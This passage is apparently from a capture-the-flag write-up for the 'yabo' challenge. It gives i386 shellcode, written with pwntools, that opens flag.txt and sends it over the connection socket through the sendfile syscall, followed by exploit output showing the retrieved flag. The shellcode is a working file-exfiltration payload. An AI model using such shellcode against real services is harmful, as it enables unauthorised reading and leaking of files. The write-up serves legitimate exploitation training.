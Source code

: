 
### Solution 1

This was my original solution, it was the first thing I thought of to do, just `open` `flag.txt` and use the `sendfile` syscall to send it.

```
arg0 = b'./flag.txt'

shellcode = asm(f'''

/* open flag.txt */

xor eax, eax                                            # eax = 0
xor ecx, ecx                                            # ecx = 0
xor edx, edx                                            # edx = 0
mov ebx, {'-0x' + hexlify(arg0[8:][::-1]).decode()}     # because of nulls set a neg, then use neg, then push to stack
neg ebx
push ebx
push {'0x' + hexlify(arg0[4:8][::-1]).decode()}         # rest of filename
push {'0x' + hexlify(arg0[0:4][::-1]).decode()}
mov ebx, esp                                            # ebx points to ./flag.txt
mov al, {constants.SYS_open}                            # open file, eax will have FD for open file
int 0x80

/* use sendfile to, well, send the file */

mov ecx, eax                                            # mv open FD to ecx
dec eax                                                 # fd from open
mov ebx, eax                                            # now fd of accept
push 50                                                 # length of flag?
pop esi
xor edx, edx                                            # zero edx, may not been required since done above and not used
xor eax, eax                                            # eax = 0
mov al, 187                                             # sendfile syscall (was not in pwn tools table)
int 0x80
''')
```

This has two sections:

1. `open` the file.  I'm using the same trick from Solution 2 above for the file name, so I didn't have to hardcode it or use tricks like `././flag.txt` or `.///flag.txt` to get it to stack align.  After the `open` syscall, `eax` will have the FD of `./flag.txt`, I'll need that in the next step.
2. Use `sendfile` to send the file.  Since I have the FD of the file, I just needed to `dec` to get the FD from `accept` (`4`).  So again, no need to hardcode anything.  The rest just sets up the parameters for the `sendfile` syscall.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/yabo/yabo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.ctf.games on port 32332: Done
[*] len(shellcode): 46
flag{2f20f16416a066ca5d4247a438403f21}
```

